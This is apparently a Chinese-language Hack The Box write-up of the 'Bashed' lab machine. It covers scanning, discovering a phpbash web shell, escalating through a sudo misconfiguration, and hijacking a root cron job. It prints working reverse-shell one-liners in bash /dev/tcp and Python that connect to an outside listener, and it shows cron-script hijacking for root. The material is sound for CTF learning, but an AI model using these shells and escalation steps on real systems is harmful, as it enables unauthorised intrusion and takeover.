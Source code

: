 ```yaml
---
title: Bashed Writeup
date: 2020-11-13 05:40:01
category: Hack The Box
---
```


# Bashed Writeup

![](./0.png)

## 0x01 信息收集
先手 `nmap`。
### 1、TCP Scan
``` java
nmap -A -p- -oA nmap/tcp 10.10.10.68
```
就开了一个 80。
- **80**: apache 2.4.18，可能是漏洞版本，开放了 web 页面。

![](./1.png)

### 2、UDP Scan
``` java
nmap -sU -A -p- -oA nmap/udp 10.10.10.68
```
未见开放。

**共开放了 `tcp 80` 端口。**

## 0x02 漏洞利用
### 1、Port 80
浏览器打开主页是 phpbash 的介绍（一个页面命令行），同时翻到子一个子页面给的交互示意动图，可以感觉到这里大概率是个立足点。

![](./2.png)
页面上获取不到更多信息，这个时候又到目录扫描的好时光了，照例 `dirbuster` 默认字典跑一下，既然是 php 站点，后缀先用默认的 `.php`。
扫到可疑文件。

![](./3.png)
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
nohup bash -i >& /dev/tcp/10.10.14.2/4444 0>&1

浏览器打开，是一个页面命令行，身份是普通用户 `www-data`。

![](./4.png)

页面下的 shell 多有不便，先弹一个 shell 出来。

这里应该是做了限制，尝试 `bash`、`nc` 均无效，甚至怀疑其了人生是不是做了网络隔离，但是用 `curl` 测试又是通的，遂把其他脚本也试了一轮，最后 `python` 成功反弹。
``` bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 0x03 提权
首先关注一下 sudo 权限配置。
``` bash
sudo -l
```
这个配置意思是 `以 scriptmanager 用户的身份无需密码执行任意命令`。

![](./5.png)
狂喜，跑一个 `id` 看看，返回显示还是普通用户。
``` bash
sudo -u scriptmanager id
```
![](./6.png)
并且尝试花式 `su` 到 `root` 都没用，一律需要输密码，切不上去，人傻了。
``` bash
sudo -u scriptmanager su
sudo -u scriptmanager su -
sudo -u scriptmanager sudo su
```

![](./7.png)
> `su` 需要一个完全互动的 TTY，否则会报错 `su: must be run from a terminal`。切换 TTY：
> ``` bash
> python -c 'import pty; pty.spawn("/bin/bash")'
> ```
> ![](./8.png)

看一下 sudo 版本：`1.8.16`，查到一个漏洞 [CVE-2019-14287](https://paper.seebug.org/1057/)，但是无法利用，似乎还需要当前用户的密码？
毫无头绪的时候思考一下盒子设计逻辑，首先 scriptmanager 肯定是突破口，但又不是管理员，那么是否想让我**用 scriptmanager 做一些 www-data 做不到的事情**？

切换到 `scriptmanager`。
``` bash
sudo -u scriptmanager /bin/bash
```
翻一下这个所属用户为 `scriptmanager` 的文件是否能发现端倪，定位到根目录下的 `scripts` 文件夹。

![](./9.png)
里面有两个文件，根据内容推断出: `scriptmanager 的 python` 脚本执行后会生成一个 `root 的 txt`，说明意味着**这里的 python 文件会以 root 权限执行**，即使暂时不知道原因。

![](./10.png)
所以在这里写入一个 python 的反弹 shell，试跑一下，还是普通用户。

![](./13.png)
![](./11.png)
说明肯定不是由用户来执行，而且 `test.txt` 的更新时间在不停变化，一定有个 root 的计划任务在一直跑这个 `test.py`。此时断开 shell，打开监听，等待计划任务执行。

![](./14.png)
果不其然得到一个 root shell。

![](./12.png)

> 这里的正确思路是：
> **使用普通用户监控 root-crontab 的工具：pspy**
> 上传至靶机，赋权 `chmod 777 pspy64s`，执行 `./pspy64s`，观察日志，会发现定时任务明细内容。
> 
> ![](./17.png)
> ![](./16.png)
> 提权后查看计划任务，确实。
> 
> ![](./15.png)

## 0x04 攻击节点
信息收集 -> 目录扫描 -> 80.phpbash-RCE(www-data) -> sudo 配置不当切换用户(scriptmanager) -> crontab-python(root)

## 0x05 学到什么
#### 1、渗透的时候不要为了省事疯狂 `ls`，能 `ls -la` 的时候尽量用，避免遗漏重要信息。
#### 2、对于不直接的线索要冷静分析，比如看到一个 NOPASSWD，却不是 root，也不要谎，都是套路。